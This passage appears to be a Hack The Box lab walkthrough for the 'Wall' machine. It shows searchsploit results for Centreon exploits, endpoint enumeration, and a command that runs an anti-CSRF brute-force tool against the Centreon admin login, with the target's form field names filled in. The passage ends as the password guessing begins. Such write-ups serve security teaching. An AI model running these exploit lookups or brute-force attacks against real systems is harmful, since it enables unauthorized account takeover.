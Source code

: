 ```console
root@endeavour:~/htb/wall# searchsploit centreon
---------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                  |  Path
                                                                | (/usr/share/exploitdb/)
---------------------------------------------------------------- ----------------------------------------
Centreon - SQL Injection / Command Injection (Metasploit)       | exploits/unix/remote/35078.rb
Centreon 1.4.2.3 - 'get_image.php' Remote File Disclosure       | exploits/php/webapps/5204.py
Centreon 1.4.2.3 - 'index.php' Local File Inclusion             | exploits/php/webapps/31318.txt
Centreon 19.04  - Remote Code Execution                         | exploits/php/webapps/47069.py
Centreon 2.3.1 - 'command_name' Remote Command Execution        | exploits/php/webapps/36293.txt
Centreon 2.5.3 - Remote Command Execution                       | exploits/php/webapps/39501.txt
Centreon 2.5.3 - Web Useralias Command Execution (Metasploit)   | exploits/python/remote/40170.rb
Centreon 2.5.4 - Multiple Vulnerabilities                       | exploits/php/webapps/37528.txt
Centreon 2.6.1 - Multiple Vulnerabilities                       | exploits/php/webapps/38339.txt
Centreon < 2.5.1 / Centreon Enterprise Server < 2.2 - SQL Injec | exploits/linux/webapps/41676.rb
Centreon Enterprise Server 2.3.3 < 2.3.9-4 - Blind SQL Injectio | exploits/php/webapps/23362.py
Centreon IT & Network Monitoring 2.1.5 - SQL Injection          | exploits/php/webapps/11979.pl
Oreon 1.4 / Centreon 1.4.1 - Multiple Remote File Inclusion Vul | exploits/php/webapps/4735.txt
---------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
there is a 19.04 RCE, but in reading it: Exploit Title: Centreon v19.04 **authenticated** Remote Code Execution. We need to get creds somewhere for this to work. Enumerate further and we'll find:

http://10.10.10.157/centreon/api/
http://10.10.10.157/centreon/static/js/
http://10.10.10.157/centreon/admin.php

Looking through the source in the API there is a CSRF token we need to get around if we are going to brute force this login. Google leads us to: https://github.com/J3wker/anti-CSRF_Token-Bruteforce. It's usage is the following:

```console
python3 brutecsrf.py --url http://test.com/index.php --csrf name_csrf_token_in_HTML_form --u admin --fuser user_name_in_HTML_form --passwd password_name_in_HTML_form
```

So to build our command we need the the CSRF token name from the html source, a username, the username field in the html source and the password name in the html form. Taking a look at the request in burp, **Centreon_token** is the name of our csrf token, fuser is **useralias**, the password is **passwd**. We'll use admin as the username we want to brute force.

```console
root@endeavour:~/htb/wall/anti-CSRF_Token-Bruteforce# ./brutecsrf.py --url http://10.10.10.157/centreon/index.php --csrf centreon_token --u admin --fuser useralias --passwd password

  ██╗          ██╗██████╗ ██╗    ██╗██╗  ██╗███████╗██████╗      ██╗  
 ██╔╝          ██║╚════██╗██║    ██║██║ ██╔╝██╔════╝██╔══██╗     ╚██╗ 
██╔╝█████╗     ██║ █████╔╝██║ █╗ ██║█████╔╝ █████╗  ██████╔╝█████╗╚██╗
╚██╗╚════╝██   ██║ ╚═══██╗██║███╗██║██╔═██╗ ██╔══╝  ██╔══██╗╚════╝██╔╝
 ╚██╗     ╚█████╔╝██████╔╝╚███╔███╔╝██║  ██╗███████╗██║  ██║     ██╔╝ 
  ╚═╝      ╚════╝ ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝     ╚═╝                                                                               
   
Bruteforce CSRF
---------------------

Author: J3wker
HTB Profile: https://www.hackthebox.eu/profile/165824
GitHub: https://github.com/J3wker


Trying : password1
```